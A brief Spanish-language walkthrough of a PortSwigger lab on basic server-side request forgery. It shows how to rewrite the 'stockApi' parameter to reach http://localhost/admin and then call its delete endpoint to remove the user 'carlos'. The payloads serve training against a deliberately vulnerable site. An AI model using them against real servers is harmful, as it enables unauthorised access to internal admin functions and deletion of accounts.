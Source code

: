 Tags: #SSRF #PortSwigger 

# Lab 1 Basic SSRF against the local server 

Este laboratorio se resuelve solicitando una acción al 'localhost'
```bash 
Ctrl + Shift + u   = Urldecodearlo en ButpSuite 

# Debemos de cambiar el 'stockApi'
stockApi=http://localhost/admin

# Para poder borrar debemos de mirar los hipervinculos y nos daran la estructura de borrado
stockApi=http://localhost/admin/delete?username=carlos
```